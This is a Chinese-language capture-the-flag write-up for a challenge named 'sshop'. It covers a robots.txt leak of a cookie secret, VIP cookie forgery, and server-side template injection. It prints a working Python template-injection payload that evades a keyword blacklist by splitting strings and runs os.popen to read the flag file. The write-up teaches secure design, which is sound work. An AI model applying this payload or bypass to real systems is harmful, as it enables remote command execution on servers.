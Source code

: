 # sshop

## 解题步骤

在 `robots.txt` 中发现隐藏的路由 `/debugggg`，其中泄露了项目的 `cookie_secret`。构造 cookie 伪造 VIP 用户身份，发现新的“编辑个性资料”功能，尝试发现存在模板注入。
在模板注入的时候发现存在黑名单，诸如 "{{" "include" "extend" "os" 等等字符串都会被拦截。
可以通过形如 {% raw *expr* } 的 payload 达到任意命令执行的目的，通过 "o""s" 拼接绕过对 os 的拦截。

最终的 payload：

```
{% raw ().__class__.__base__.__subclasses__()[59].__init__.func_globals.values()[13]["ev""al"]("__imp""ort__(\x27o""s\x27).__dict__[\x27po""pen\x27](\x27cat /home/ctf/flag\x27).read()") %}
```

## 设计思路

- 考查对于信息泄露的相关知识，例如 `robots.txt`、`.git` 目录信息泄露等。
- 了解 secret key 的重要性，一旦泄露可能使得攻击者可以伪造签名，导致后续更严重的后果。
- 了解服务端模板注入及其危害
- 了解黑名单防御是不恰当的防御思路，以及如何绕过
